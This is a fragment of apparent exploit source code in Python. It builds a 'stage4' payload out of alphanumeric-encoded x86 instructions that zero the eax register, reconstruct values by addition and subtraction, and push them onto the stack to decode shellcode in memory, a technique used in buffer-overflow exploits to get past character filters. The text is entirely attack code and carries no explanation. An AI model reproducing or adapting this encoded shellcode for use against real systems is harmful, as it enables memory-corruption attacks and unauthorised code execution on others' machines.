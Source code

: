 ```
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x36\x44\x11\x36" ## add  eax, 0x36114436
stage4 += "\x05\x35\x44\x12\x35" ## add  eax, 0x35124435
stage4 += "\x05\x36\x33\x11\x33" ## add  eax, 0x33113336
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x57\x33\x60\x16" ## add  eax, 0x16603357
stage4 += "\x05\x46\x42\x60\x15" ## add  eax, 0x15604246
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x37\x10\x17\x11" ## add  eax, 0x11171037
stage4 += "\x05\x27\x10\x07\x01" ## add  eax, 0x01071027
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x66\x61\x47\x41" ## add  eax, 0x41476166
stage4 += "\x05\x56\x61\x36\x41" ## add  eax, 0x41366156
stage4 += "\x05\x64\x41\x35\x41" ## add  eax, 0x41354164
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x34\x63\x21\x17" ## add  eax, 0x17216334
stage4 += "\x05\x23\x53\x21\x16" ## add  eax, 0x16215323
stage4 += "\x05\x23\x63\x21\x15" ## add  eax, 0x15216323
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x21\x24\x27\x53" ## add  eax, 0x53272421
stage4 += "\x05\x12\x14\x26\x43" ## add  eax, 0x43261412
stage4 += "\x05\x21\x24\x25\x43" ## add  eax, 0x43252421
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x25\x36\x46\x16" ## add  eax, 0x16463625
stage4 += "\x05\x24\x45\x45\x16" ## add  eax, 0x16454524
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x44\x67\x63\x41" ## add  eax, 0x41636744
stage4 += "\x05\x34\x56\x53\x41" ## add  eax, 0x41535634
stage4 += "\x05\x34\x65\x42\x31" ## add  eax, 0x31426534
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x24\x46\x46\x57" ## add  eax, 0x57464624
stage4 += "\x05\x24\x45\x45\x46" ## add  eax, 0x46454524
stage4 += "\x05\x24\x33\x34\x45" ## add  eax, 0x45343324
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x11\x34\x46" ## add  eax, 0x46341133
stage4 += "\x05\x32\x12\x34\x45" ## add  eax, 0x45341232
stage4 += "\x05\x22\x11\x34\x46" ## add  eax, 0x46341122
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
```